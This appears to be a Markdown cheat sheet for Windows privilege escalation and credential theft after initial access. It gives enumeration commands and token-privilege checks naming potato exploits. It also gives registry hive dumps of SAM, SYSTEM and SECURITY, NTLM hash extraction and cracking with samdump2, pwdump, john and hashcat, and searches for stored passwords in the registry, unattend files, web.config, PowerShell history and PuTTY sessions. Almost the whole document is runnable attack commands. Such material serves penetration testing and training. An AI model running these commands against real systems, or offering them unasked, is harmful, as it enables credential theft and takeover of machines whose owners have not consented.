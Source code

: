 
### System Enumeration
Basic System Info
```bash
systeminfo                          # Detailed system config
hostname                            # Hostname
wmic qfe get Caption,Description,HotFixID,InstalledOn  # Installed patches
wmic logicaldisk get name          # Logical drives
net user                            # List all users
net user [username]                # Info about specific user
whoami                              # Current user
whoami /priv                        # Current user's privileges
```
 User Group and Privileges (Filtered View)
```bash
whoami /all | Select-String -Pattern "username" -Context 2,0
# Example: whoami /all | Select-String -Pattern "wade" -Context 2,0
```
View Folder Structure
```bash
tree /f    # Shows files and directories recursively
```
### Network Enumeration
```bash
ipconfig /all           # All IP config info
netstat -ano            # Active connections and listening ports
```
### Token Privilege Exploits
Check for SeImpersonatePrivilege

```bash
whoami /priv
```
Juicy Potato, RoguePotato, or PrintSpoofer can be used if enabled.

### Credential Dumping & Password Hunting
 Registry Hive Dump (requires SYSTEM privileges)
```bash
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SECURITY SECURITY
```
 Extracting Hashes
```bash
samdump2 SYSTEM SAM    # Dumps NTLM hashes
```
 Cracking Hashes
```bash
john --format=nt hash.txt --wordlist=rockyou.txt
hashcat -m 1000 hash.txt rockyou.txt
```
### Saved Windows Credentials
```bash
cmdkey /list
```
### Look for Passwords in Configs and Registry
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
### Sensitive File Discovery
 Unattended Installation Files
```bash
C:\Unattend.xml

C:\Windows\Panther\Unattend.xml

C:\Windows\Panther\Unattend\Unattend.xml

C:\Windows\system32\sysprep.inf

C:\Windows\system32\sysprep\sysprep.xml
```
 IIS/Web Config Files
```bash
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
### PowerShell History
View PowerShell Command History
```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
In PowerShell:
```powershell
Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Scheduled Tasks
List and Investigate Tasks
```bash
schtasks                      # List tasks
schtasks /query /tn <name> /fo list /v   # Details of specific task
icacls c:\tasks\schtask.bat   # Who can modify this task
```
### Installed Software (Look for Vulnerabilities)
List Installed Software with Version
```bash
wmic product get name,version,vendor
```
Use this info to:
- Search for unpatched versions
- Identify misconfigurations

### PuTTY Saved Sessions (Possible Proxy Credentials)
```bash
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
### Using Found Credentials to Gain Access
Use runas to switch user
```bash
runas.exe /user:<username> cmd
```
You’ll be prompted to enter the password. If successful and the user is admin → you get admin CMD.

🧠 Bonus: More Password Dump Tools
creddump7

```bash
./pwdump.py SYSTEM SAM
```
